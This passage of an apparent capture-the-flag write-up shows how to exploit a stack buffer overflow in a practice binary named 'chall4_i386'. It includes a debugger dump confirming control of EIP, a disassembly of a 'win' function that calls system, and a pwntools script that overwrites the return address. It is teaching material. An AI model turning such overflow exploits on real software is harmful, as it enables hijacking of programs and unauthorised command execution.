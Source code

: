 ```sh
──────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0       
$ebx   : 0x41414141 ("AAAA"?)
$ecx   : 0xffffffff
$edx   : 0xffffffff
$esp   : 0xffffd250  →  0x00000000
$ebp   : 0x41414141 ("AAAA"?)
$esi   : 0xf7f9ae1c  →  0x001edd2c
$edi   : 0xf7f9ae1c  →  0x001edd2c
$eip   : 0x42424242 ("BBBB"?)
...
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x42424242
────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall4_i386", stopped 0x42424242 in ?? (), reason: SIGSEGV
gef➤  
```
Bingo, we've found that we can modify eip, as 0x42 is B in ascii.

So now to find the location of the `win` function. This is rather easy with gdb:
```sh
gef➤  disas win
Dump of assembler code for function win:
   0x08049196 <+0>:	push   ebp
   0x08049197 <+1>:	mov    ebp,esp
   0x08049199 <+3>:	push   ebx
   0x0804919a <+4>:	call   0x8049201 <__x86.get_pc_thunk.ax>
   0x0804919f <+9>:	add    eax,0x2e61
   0x080491a4 <+14>:	lea    edx,[eax-0x1ff8]
   0x080491aa <+20>:	push   edx
   0x080491ab <+21>:	mov    ebx,eax
   0x080491ad <+23>:	call   0x8049060 <system@plt>
   0x080491b2 <+28>:	add    esp,0x4
   0x080491b5 <+31>:	nop
   0x080491b6 <+32>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x080491b9 <+35>:	leave  
   0x080491ba <+36>:	ret    
End of assembler dump.
gef➤  x win
0x8049196 <win>:	0x53e58955
```
As you can see, the start of the disassembly of `win` is the function we want to input. Now, we need to input that into our payload. I don't like doing that manually, so let's script this:
```
from pwn import *

context.binary = "./chall4_i386"
e = context.binary
p = process(e.path)

payload = b"A"*72
payload += p32(e.symbols["win"])

p.sendline(payload)
p.interactive()
```
Where we're using pwntools to help with our exploitation.
